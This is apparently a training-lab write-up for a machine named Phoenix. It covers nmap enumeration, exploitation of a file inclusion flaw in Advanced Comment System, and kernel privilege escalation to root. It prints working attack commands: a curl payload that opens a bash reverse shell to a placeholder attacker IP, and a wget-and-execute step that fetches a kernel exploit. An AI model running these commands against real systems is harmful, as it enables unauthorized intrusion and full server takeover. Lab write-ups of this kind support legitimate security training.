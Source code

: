 # Phoenix (10.11.1.8)
****
## Enumeration

1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.8
```
   
2. `nmap` shows that an Apache web server is running on port 80. Nmap was able to detect a `robots.txt` file with 2 disallowed entries . One of it is a directory called "**internal**"
![[10.11.1.8 - phoenix (done)/screenshots/nmap-p80.png]]

3. http://10.11.1.8/internal/ shows a demo page with a commenting feature. Viewing the source code of the page reveals another directory called "**advanced_comment_system**"
      ![[10.11.1.8 - phoenix (done)/screenshots/acs-dir.png]]
  
4. A quick Google search of the keyword "**advanced comment system**" shows several public exploits
      ![[phoenix-exploits.png]]
> [!info] 
> **Advanced Comment System** is a PHP application that is vulnerable to **File Inclusion** (both remote and local), which could lead to **Remote Code Execution** .


****
## Exploitation

1. Start a netcat listener on port 443 (as root)
> [!important] 
> We need to use port 443 as listening port for our reverse shell
```
sudo nc -nlvp 443
```
   
2. Establish a reverse shell by running the following `curl` command.
   
```
curl -s --data "<?system('/bin/bash -i >& /dev/tcp/KALI_IP/443 0>&1');?>" 'http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```

> [!note] 
> Replace the `KALI_IP` with your Kali's IP address 

3. We should now have a reverse shell running as `apache`.
   ![[apache.png]]

****
## Post-exploitation
1. Enumeration shows that the server is running **CentOS** with Linux kernel version **2.6.9** , which is vulnerable to **# ip_append_data() Ring0 Privilege Escalation**. 
   
   ![[phoenix-searchsploit.png]]
   
2. Download and compile the script from [EDB 9542](https://www.exploit-db.com/exploits/9542)
 
```
gcc -m32 -Wl,--hash-style=both -o exploit 9542.c  
```
   
> [!important] 
> We need to compile this on older version of GLIBC.    
   
3. Upgrade our simple shell to TTY shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

4. Transfer the compiled exploit and run it into the target machine.
 
```
cd /tmp && wget http://KALI_IP/exploit && chmod +x exploit && ./exploit 
```

> [!tip] 
> We need to find a directory where **apache** user has a write access

5. We should now have a root access and we should be able to read the flag.
	![[phoenix-proof.png]]
